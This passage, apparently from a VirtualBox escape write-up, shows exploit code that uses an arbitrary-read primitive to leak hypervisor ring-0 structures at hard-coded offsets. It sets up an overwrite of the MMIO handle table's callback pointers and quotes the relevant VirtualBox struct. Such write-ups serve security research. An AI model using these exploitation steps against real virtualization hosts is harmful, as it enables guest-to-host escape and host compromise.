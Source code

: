 Basically, structure `GVMM` contains the `GVMHANDLE` member, which is a structure that contains `pGVM`. `GVMM` is actually a global variable ( `g_pGVMM` ) in `VMMR0.r0`. Since we already have the base address of `VMMR0.r0`, we can get the address of `g_pGVMM` and traverse the structure till we get `pGVM`, then leak the address of `pGVM->iomr0.s.paMmioRing3Regs` ( `paRing3` ) and `pGVM->iom.s.paMmioRegs` ( `uAddrRing3` ).

```c
size_t g_pGVMM = arb_read(inst, code, (sll)(vmmr0_base + 0x1E9E68));
printk(KERN_INFO "g_pGVMM: %px\n", g_pGVMM);

size_t pGVM = arb_read(inst, code, (sll)(g_pGVMM + 0xb8 + 0x8)); // g_pGVMM->aHandles[1]->pGVM
printk(KERN_INFO "pGVM: %px\n", pGVM);

// leak pGVM->iom.s.paMmioRegs (r3Map) & pGVM->iomr0.s.paMmioRing3Regs (r0Map)
size_t r0Map = arb_read(inst, code, (sll)(pGVM + 65352)); // paRing3
size_t r3Map = arb_read(inst, code, (sll)(pGVM + 44152)); // uAddrRing3
printk(KERN_INFO "r0Map: %px\n", r0Map);
printk(KERN_INFO "r3Map: %px\n", r3Map);
```

After we get the address, we can start overwriting data in `paRing3` ( the `r0Map` ). But before we overwrite it, we'll need to know the structure of `paRing3`. Take a look at the code in `IOMR0MmioGrowRegistrationTables` and see how `paRing3` is declared:


```c
PIOMMMIOENTRYR3 const paRing3 
```

Check the `PIOMMMIOENTRYR3` structure:

```c
 // src/VBox/VMM/include/IOMInternal.h

/**
 * Ring-3 MMIO handle table entry.
 */
typedef struct IOMMMIOENTRYR3
{
    /** The number of bytes covered by this entry. */
    RTGCPHYS                            cbRegion;
    /** The current mapping address (duplicates lookup table).
     * This is set to NIL_RTGCPHYS if not mapped (exclusive lock + atomic). */
    RTGCPHYS volatile                   GCPhysMapping;
    /** Pointer to user argument. */
    RTR3PTR                             pvUser;
    /** Pointer to the associated device instance. */
    R3PTRTYPE(PPDMDEVINS)               pDevIns;
    /** Pointer to the write callback function. */
    R3PTRTYPE(PFNIOMMMIONEWWRITE)       pfnWriteCallback;
    /** Pointer to the read callback function. */
    R3PTRTYPE(PFNIOMMMIONEWREAD)        pfnReadCallback;
    /** Pointer to the fill callback function. */
    R3PTRTYPE(PFNIOMMMIONEWFILL)        pfnFillCallback;
    /** Description / Name. For easing debugging. */
    R3PTRTYPE(const char *)             pszDesc;
    /** PCI device the registration is associated with. */
    R3PTRTYPE(PPDMPCIDEV)               pPciDev;

    //...............omitted.........................
} IOMMMIOENTRYR3;
/** Pointer to a ring-3 MMIO handle table entry. */
typedef IOMMMIOENTRYR3 *PIOMMMIOENTRYR3;
```
